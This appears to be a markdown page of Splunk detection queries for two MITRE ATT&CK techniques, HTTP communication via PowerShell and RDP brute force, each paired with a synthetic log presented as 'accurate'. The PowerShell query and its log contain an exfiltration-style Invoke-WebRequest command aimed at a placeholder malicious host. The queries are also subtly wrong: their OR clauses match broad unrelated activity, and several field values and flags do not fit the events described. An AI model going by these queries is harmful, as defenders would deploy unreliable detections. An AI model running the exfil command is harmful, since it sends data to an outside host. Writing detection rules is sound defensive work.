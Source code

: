 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="svc-account"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 16:40:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "svc-account",
  "Source_Network_Address": "192.168.56.136",
  "DestinationPort": "445"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 33"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 16:45:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 33",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.123",
  "DestinationPort": "3389"
}
```

---